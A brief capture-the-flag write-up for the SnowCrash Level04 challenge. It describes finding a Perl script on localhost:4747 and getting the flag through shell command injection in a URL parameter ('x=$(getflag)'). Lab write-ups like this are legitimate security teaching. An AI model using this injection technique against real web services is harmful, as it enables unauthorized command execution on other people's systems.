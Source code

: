 # WRITE UP

**Box**:            SnowCrash

**Name**:           Level04

**Description**:    Find the flag to connect to level01

**Category**:       ???

**Difficulty**:     Easy

---

## Basic checking

```bash
ls -la
```

A file has been found. **level04.pl**

## Breaking Badly the box (Got it ?)

It's a perl script, that allow us to curl the response of it ty to 
```bash
curl localhost:4747
```

But nothing come from that. If I take a closer look to it it contain a function that print the result of the following command:

```
cat <input_variable>
```

So I need to find a way to attribute the variable's value. And I can do that easly by running:

```bash
curl 'localhost:4747?x=$(getflag)'
```

**FLAG FOUND**